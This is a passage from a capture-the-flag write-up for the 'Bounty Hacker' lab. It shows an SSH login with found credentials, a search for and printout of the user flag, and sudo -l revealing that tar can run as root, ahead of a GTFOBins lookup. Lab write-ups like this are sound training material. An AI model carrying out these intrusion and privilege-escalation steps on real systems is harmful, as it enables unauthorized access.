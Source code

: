 #
> Connecting to the Target Through SSH
15. `ssh lin@{TARGET IP} -p 22` to connect to the target via SSH using the new set of credentials that we have 
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh lin@10.10.2.76 -p 22
The authenticity of host '10.10.2.76 (10.10.2.76)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.2.76' (ECDSA) to the list of known hosts.
lin@10.10.2.76's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
16. `find / -type f -name user.txt 2>/dev/null` to search for the **user.txt** file in the entire file system ("/") and display the path of any matching files while suppressing any error messages that may occur during the search
17. `cat {USER.TXT FILE PATH}` to display contents of the user.txt file on the terminal
```bash
lin@bountyhacker:~/Desktop$ find / -type f -name user.txt 2>/dev/null
/home/lin/Desktop/user.txt
```
```bash
lin@bountyhacker:~/Desktop$ cat /home/lin/Desktop/user.txt
THM{CR1M3_SyNd1C4T3}
```

# Post Exploitation
> Privilege Escalation
18. `sudo -l` to list the sudo privileges assigned to the user that we're logged in as, which shows that they can execute the **tar** command without needing the root's password
```bash
lin@bountyhacker:~/Desktop$ sudo -l 
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
19. `firefox "https://gtfobins.github.io/"` to launch firefox and direct it to go to the GTFOBins website and then we searched for the **tar** command
